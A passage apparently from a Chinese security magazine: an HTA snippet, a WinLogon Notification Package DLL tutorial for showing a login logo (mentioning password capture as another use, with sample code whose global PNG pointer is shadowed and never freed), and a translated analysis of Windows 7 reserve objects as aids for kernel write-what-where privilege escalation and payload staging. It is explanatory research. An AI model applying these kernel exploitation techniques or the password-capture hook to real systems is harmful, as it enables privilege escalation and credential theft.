在这个例子里，我们需要设计一个按钮，用户按这个按钮的时候执行搜寻 ESET ID 的工作。搜寻完毕后，再通过 HTA 显示函数返回结果。



图 2

所以，我们的 BODY 部分可以这样写：

```html
<body>
  <input type="button" value="Searching..." name="run_button" onClick="UrlTest">
  <input type="button" value="Disclaimer!" name="run_button" onClick="Dis">
  <input type="button" value="Help/Others!" name="run_button" onClick="location.href='http://www.chinapay.com/scsoc/'">
</body>
```

前置知识：VC  
关键字：Windows、登录、Logo

## 在 Windows 的登录界面上留下你的 Logo

文/图 彭毅 王胜

平时在登录 Windows 系统时，我们经常能够看到，许多杀毒软件都把自己的 Logo“烙”在了 Windows 登录界面上，比如瑞星、卡巴斯基。这是怎么实现的呢？这里我们介绍一种简单易行的方法——WinLogon Notification Package。

## 原理简介

WinLogon Notification Package，即 WinLogon 事件通知机制，是 WinLogon 提供给用户实现特定程序功能的一种扩展机制。简单来说，就是允许用户在 WinLogon 发生登录、注销等事件时做一些自己感兴趣的工作，比如显示 Logo。从程序员的角度来说，WinLogon Notification Package 就是一个特定的 DLL 程序，通过对照 WinLogon 事件导出相应的事件函数给 Windows 系统，然后等待 Windows 来执行我们感兴趣的功能。WinLogon Notification Package 只针对 Windows XP 以下版本的系统实现，对于 Windows Vista 和 Windows 7 则无效。通过对照 MSDN，我们可以看到 WinLogon 包含的事件如表 1 所示。



```text
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Notify
```



图 1

可以看到，我们在 Notify 表项下新建了一个 sample 子项，然后分别对应自己感兴趣的 WinLogon 事件建立表项，而表项中的内容就是我们后面 DLL 程序导出的事件函数名称。比如这里，系统开机 Startup 事件、系统登录 Logon 事件发生时，执行 LogonRoutine 函数；系统注销 Logoff 事件发生时，执行 LogoffRoutine 事件，以此类推。对照表 1，我们可以画出相应的注册表对照表，如表 2 所示。

表中如“[REG_SZ]”这样的标志代表相应注册表项的类型，方便大家在创建时可以对照参考。相对表 1 来看，表 2 中多了前三个选项，而其中“DllName”一项是必须填写的，另外两个大家可以对照表中解释来理解。在我们的例子中（参考图 1），这个注册表项里是“sample.dll”，代表我们的程序文件叫 sample.dll。而 DLL 文件所在路径一般是在 Windows 安装目录的 system32 目录下，比如“c:\windows\system32\”。

表 1

| 键名 | 说明 |
|---|---|
| Lock | 锁定桌面事件 |
| Logoff | 注销事件 |
| Logon | 登录事件 |
| Shutdown | 关机事件 |
| StartScreenSaver | 启动屏保事件 |
| StartShell | 启动 shell（通常为 explorer.exe）事件 |
| Startup | 系统开机事件 |
| StopScreenSaver | 停止屏保事件 |
| Unlock | 解除桌面锁定事件 |

相应的，在以下注册表表项中，我们可以自己命名一个子项，用以执行我们的 WinLogon Notification Package。比如，

表 2

| 键名 | 说明 |
|---|---|
| Asynchronous [REG_DWORD] | 是否异步处理 WinLogon 事件；设为 1 时 WinLogon 将启动新线程处理 |
| DllName [REG_EXPAND_SZ] | 指定要加载的 DLL 文件名 |
| Impersonate [REG_DWORD] | 是否以当前登录用户权限处理事件 |
| Lock [REG_SZ] | 锁定桌面事件 |
| Logoff [REG_SZ] | 注销事件 |
| Logon [REG_SZ] | 登录事件 |
| Shutdown [REG_SZ] | 关机事件 |
| StartScreenSaver [REG_SZ] | 启动屏保事件 |
| StartShell [REG_SZ] | 启动 shell（通常为 explorer.exe）事件 |
| Startup [REG_SZ] | 系统开机事件 |
| StopScreenSaver [REG_SZ] | 停止屏保事件 |
| Unlock [REG_SZ] | 解除桌面锁定事件 |

## 程序实现

程序的实现相对比较简单，不过也有一些细节需要注意。首先，我们创建一个 DLL 程序框架，代码如下：

```cpp
#include <windows.h>
#include <Winwlx.h>

BOOL WINAPI DllMain(HINSTANCE hInstance, DWORD dwReason, LPVOID lpReserved)
{
    switch(dwReason)
    {
    case DLL_PROCESS_ATTACH:
        {
            DisableThreadLibraryCalls(hInstance);
        }
        break;
    }
    return TRUE;
}
```

这里头文件“Winwlx.h”是必须的。它定义了下面事件函数需要的 WLX_NOTIFICATION_INFO 结构。WLX_NOTIFICATION_INFO 结构具体内容可参考 MSDN，通用的 Winlogon 事件函数原型如下：

```cpp
VOID WINAPI WinLogon_Event_Routine(PWLX_NOTIFICATION_INFO pInfo)
{
    // 这里实现自己的功能
}
```

在本文例子程序中，我们编写了一个系统登录时发生的事件函数 LogonRoutine，在其中实现显示 Logo 的功能。为了达到透明 PNG 图片在登录界面上的显示效果，我们利用了网上的 PNG 图片显示代码——png32_helper（http://www.codeproject.com/KB/graphics/transparent__png.aspx），来达到程序演示效果。png32_helper 是一个简单易用的 32 位 PNG 图片显示代码。

Png32_Load 函数用于加载 PNG 图片，Png32_Show 函数用于显示图片，而 Png32_Free 函数用于释放 Png32_Load 函数加载后的 PNG 图片指针。怎么样，是不是很简单！主要代码实现如下：

```cpp
// png32_helper 头文件
#include "png32_helper.h"
// 指定 png32_helper 相关链接库
#pragma comment(lib,"png.lib")
#pragma comment(lib,"zlib.lib")
#pragma comment(lib,"png32_helper.lib")

// PNG 图片全局变量
PNGINFO *g_pPng;

// WinLogon 登录事件函数
VOID WINAPI LogonRoutine(PWLX_NOTIFICATION_INFO pInfo)
{
    TCHAR szFileName[MAX_PATH];
    strcpy(szFileName,"hello.png");
    PNGINFO *g_pPng = Png32_Load(szFileName);
    // 在 WinLogon 登录界面上显示
    Png32_Show(GetDC(0),150,0,g_pPng->nWidth,g_pPng->nHeight,g_pPng,0,0);
}

// WinLogon 注销事件函数
VOID WINAPI LogoffRoutine(PWLX_NOTIFICATION_INFO pInfo)
{
    if(g_pPng)
        Png32_Free(g_pPng);
}
```

我们在 Windows 登录时，在登录界面上加上 PNG 图片格式的 Logo，然后在系统注销时释放它，登录时的效果如图 2 所示。



图 2

可以看出，屏幕左上角除了瑞星的图标外，还加上了我们自己的 Logo。总的来说，WinLogon Notification Package 是扩展 WinLogon 事件处理的一个较好的切入口。可以通过这个扩展，实现诸如显示 Logo、截取登录密码、日志记录等功能。这里我们只是抛砖引玉地介绍了简单的 WinLogon Notification Package 编写方法。希望大家能举一反三，写出更好、更有创意的 Winlogon Notification Package 应用。

前置知识：无

关键词：逆向、Windows 7

# 逆向 Windows 7 对象


文/Tim Shelton　译/dragonltx

微软连续不断地改善 Windows 操作系统，同时也在实现新特性和新功能，来使用户和软件开发者用起来更简单。另一方面，当新代码被引入到现有的内核态或者用户态模块中，会给潜在的攻击者打开新的机会之门，这些攻击者旨在用系统的功能来颠覆它的安全性。本文的目的之一就是证明上述观点，读者将会发现，它们是有两面性的。

正如我在前面的文章中——Windows Objects in Kernel Vulnerability Manager——指出的，对象管理器是作为 Windows 执行体的一部分而实现的一个关键子系统，因为它控制着应用程序对大部分系统资源的使用权。在这篇文章里，我将介绍一种新型对象，即储备对象，它是随着 Windows 7 一起发布的。正如它们所显现的，在各种各样已知的内核攻击中，这些对象的特性使它们成为方便的辅助工具。

根据作者的观察，本文里描述的机制在当前处于最初发展阶段，并且很可能在未来的 Windows 版本中继续涉及。在这样的情况下，可能对 Ring0 黑客更有用。

举个例子，NtCreateProfileEx 函数增加了在老的 NtCreateProfile 中没有的选项，同样的情况也发生在 NtOpenKey（Ex）、NtQuerySystemInformation（Ex）和其他调用上。

言归正传，我们感兴趣的函数如下：

- **NtAllocateReserveObject**：负责在内核创建一个对象的系统调用，在内核池分配内存，返回一个适当的句柄等。
- **NtQueueApcThreadEx**：选择性地利用之前分配的储备对象的系统调用，同时插入一个 APC（异步过程调用）到特定线程队列中。
- **NtSetIoCompletionEx**：为一个 IoCompletion 对象增加将要发生的 IO 计数器的系统调用。与基本的 NtSetIoCompletion 函数相反，它也能利用储备对象。

正如我们可以看到的，上面的三个函数都已在 Windows 7 中引入，并且这些函数是不公开的。为了能够更好地理解这些类型对象，让我们首先集中于分配函数。

## 新的 Windows = 新的系统调用

因为微软开发者正在获得反馈以及当前全部系统机制如何工作的经验，本地系统调用集和官方 API 在不同的 Windows 版本中有所不同。（请注意，当 API 接口必须提供向后兼容性时，本地调用并没有太多保证。）一个很好的例子是对比 ntdll.dll 导出表中 Windows 7 和 Windows Vista SP1 的变化。可以看到，增加了许多新函数，同时删除了一些。

大多数新函数集由 Rtl*（运行时程序库）开头的名字组成，作为辅助程序实现，通常被官方 API 代码利用（如 kernel32.dll）。除此之外，你也可以找到大约 15 个新的 Nt* 符号，代表了被导出到 Ring3 的新内核函数，因此用户自定义应用程序（或者系统链接库）可以利用系统提供的新能力。如图 1 所示，在我们兴趣范围内呈现了一个完整的新 ntdll 名字集。

## nt!NtAllocateReserveObject

为了使你更深入地了解下面的机制，我更愿意从彻底分析分配函数开始。如图 2 所示，你可以找到它的伪代码（用类 C 的方式呈现）。





不要感到惊奇，大多数新调用并没有实现完整的新特性；相反，它们看起来是扩展已有函数的功能，增加额外参数，并且提供之前没有的额外功能。



图 2

这个系统调用需要传递三个参数：一个是输出参数，用来返回对象句柄到用户程序；其他两个参数提供关于要分配对象的类型和额外信息。在进入函数后，hObject 指针和 nt!MmUserProbeAddress 相比较，确保地址不会超过用户内存区域。此外，由于被支持的储备对象类型数量有限（在写这篇文章时等于 2 个），每个 ObjectType 里的较大数字将使函数跳出执行。

检查之后，一个内部 nt!ObCreateObject 函数被用来创建特定大小和类型的对象（你可以在图 3 中找到函数定义），有趣的部分从这里开始。可以看出，ObjectType 和 ObjectSizeToAllocate 参数不是固定的；相反，内部数组 PspMemoryReserveObjectTypes 和 PspMemoryReserveObjectSizes 被使用，同时 ObjectType 参数被用作进入它们的索引。



图 3

如前面所提到的，当前只有两种类型的储备对象有效：UserApcReserve 和 IoCompletionReserve 对象。它们中的每一个都有一个独立的 OBJECT_TYPE 描述符结构，包含一些对象特征，如名字、分配类型（分页/非分页池）和其他信息。这些结构指针可以通过 PspMemoryReserveObjectTypes 数组来使用；所有类型对象描述符呈现在图 4 中。这个观察暗示你可以挑选要用的对象类型。


图 4

第二个传给 ObCreateObject 的动态参数是缓冲区大小，用来存放对象内部结构。考虑到 x86 和 x86-64 上一个机器字大小不同，存在于 PspMemoryReserveObjectSizes 数组上的对象大小也不同。上述数组的确切数字呈现在图 5 中。


图 5

在对象成功分配后，缓冲区被清零，以避免垃圾字节引起故障。然后，如果分配的是 IoCompletion，ObjectBuffer 会被一些初始值填充，例如指向自身的指针或者一个回调函数地址。请注意，Apc 对象不会被初始化，直到其他函数进入并引用对象池缓冲区。继续执行，发出一个 nt!ObInsertObjectEx 调用，将对象放入本地进程句柄表中（举个例子，检索一个数值 ID，代表 Ring3 中的资源）。句柄放入本地 hOutputHandle 变量里，然后复制到 hObject 指针中（由应用程序指定并且已被证实有效）。如果一切顺利，系统调用返回 ERROR_SUCCESS 状态。

总而言之，NtAllocateReserveObject 使任意系统用户分配一个非分页内核池缓冲区成为可能，然后获得这个缓冲区在用户态模式下的句柄代表。在文章后面会显示，当利用漏洞时，它能使我们很好地控制内核内存。

## nt!QueueApcThreadEx

第一个能够在储备对象上操作的用户可控函数（即系统调用句柄）负责在特定线程下给异步过程调用排队。再次，如图 6 所示，给出了函数实现的 C 伪代码。


图 6

首先，分配给输入 `hThread` 参数的 `KTHREAD` 地址用 `ObReferenceObjectByHandle` 重新取回。如果调用成功，并且线程没有设置 `SYSTEM_THREAD`，执行会走两条路径：

- 如果 `hApcReserve` 是非零值，对象内存块地址被获得并存入 `ApcBuffer`。接下来，会进行一个原子比较操作，来标记储备对象为“忙”；缓冲区第一个 `DWORD` 就是用于这个目的。`ApcBuffer` 以 `sizeof(DWORD)` 增加，指向 `_KAPC` 结构开始处。最终，内核例程和总结例程函数指针设为适当地址，以致储备对象在 APC 执行完成后能够正确释放。
- 如果 `hApcReserve` 等于零，在非分页池中分配 `0x30`（Windows 7 x86）或者 `0x58`（Windows 7 x86-64）字节，然后结果指针赋给 `ApcBuffer`。内核例程和总结例程分别设成 `IopDeallocateApc` 和 `ExFreePool`。

在 if 声明后面，调用 `KeInitializeApc`，指定 `ApcBuffer` 指针作为目标 `KAPC` 地址，然后传递剩余的、前面初始化过的参数（`KernelRoutine`、`RundownRoutine`、`ApcRoutine`、`ApcArgument1`）。最后，执行 `KeInsertQueueApc` 调用，导致 `KAPC` 结构（指向 `ApcBuffer`）插入线程 APC 队列。

在微软 Windows 7 之前，用户不能让内核使用一个已知地址的特定内存块。相反，会走上面“if 声明后面”的分配路径。如果应用程序想给 APC 排队，系统会在排队前先分配所需空间，而且这些通常发生在单个例程（系统调用）里。因此，内核内存地址不会暴露给用户，也就难以利用内核池中的 `KAPC` 结构进行稳定的内核攻击。对我们来说很幸运，时代明显变了。

## nt!NtSetIoCompletionEx

第三个也是最后一个我们感兴趣的函数，操作的是 IoCompletion 对象，该对象此前由 `NtCreateIoCompletion` / `NtOpenIoCompletion` 创建。让我们看一下伪代码并找到我们期望的行为，如图 7 所示。

```
（伪代码截图，图 7）
```

图 7

在函数体开头，`IoCompletion` 和 `hReserveObject` 句柄会被引用；如果任意一个失败，执行就停止。接下来，`InterlockedCompareExchange` 函数被调用，原因和前面一样：防止系统中并发访问对象。然后调用内部 `IoSetIoCompletionEx` 函数；如果它失败，对象会恢复到之前状态（例如第一个 `DWORD` 设为 0），然后退出。否则返回 `ERROR_SUCCESS` 状态。

## 恶意利用

现在，由于储备对象术语已经清楚了，我们最终可以找到一些潜在攻击者利用新对象类型的实例。

## UserApcReserve 作为 write-what-where 目标

因为 Windows 内核允许用户态进程检索系统上所有活动对象的信息（包括拥有者 PID、数值句柄值、对象描述符地址和其他内容），你可以很容易找到给定对象的相关地址。关于从操作系统提取此类信息的更多内容，可以参考 `NtQuerySystemInformation` 文档（配合 `SystemHandleInformation` 参数）。

总体上，当一个内核模块决定从内核池自动分配内存时，结果地址（`ExAllocatePool` 返回值或等价值）不会离开内核模式，因此不会显示给用户态调用者。由于这个“限制”，再加上分配地址难以成功预测或猜测（这块内存区域不能作为合理的 write-what-where 攻击目标），例如在 Windows NT 家族到 Windows 7 的各版本里，`NtQueueApcThread` 系统调用一直使用动态缓冲区存储所需 `KAPC` 结构，因此它不可能成为代码执行 exploit 的目标。

自从用户可以在 `NtQueueThreadApc` 和 `NtQueueThreadApcEx`（使用已知地址内存区域）之间选择，事情就变得有趣了。攻击者可以分配并初始化 `UserApcReserve` 对象，找到其精确地址，并通过自定义 Ring0 漏洞覆盖 `KAPC` 结构内容，最终刷新 APC 队列，完成权限提升攻击。图 8 展示了一个典型 exploit 伪代码。

```
（exploit 伪代码截图，图 8）
```

图 8

## 内核内存中的 Payload

纵观各种与系统内核相关的安全漏洞，代码执行被触发时的具体环境往往不同。

由于许多后台机制使机器保持活跃，在攻击时，潜在攻击者无法预知每一个系统状态细节。在某些情况下，不能保证 Payload 代码执行环境与触发漏洞的进程一致。反过来，这会在构造可靠 Exploit（无论当前状态如何都能执行 ShellCode）时造成严重问题。

一个可行解决办法是：将必要代码放在进程独立的内核内存已知地址中，然后用这个地址重定向脆弱模块的执行路径。问题在于，受限用户如何把大量且位于已知地址的数据（足够容纳 Payload）放入 KM？正如预期，储备对象可以引导我们达成这一点。

如果从 x86-64 体系结构更近地看 KAPC 结构定义，可以观察到从 +0x030 偏移开始，有 4 个用户可控值，它们定义了 NtQueueThreadApcEx 的参数（第 3、第 4、第 5、第 6）：

- **NormalRoutine**：指向特定用户回调函数的指针，在刷新 APC 队列时调用。
- **NormalContext**：第一个例程参数，作为 KeInitializeApc 的内部参数。
- **SystemArgument1, SystemArgument2**：第 2 和第 3 个参数，传递给 KeInsertQueueApc。

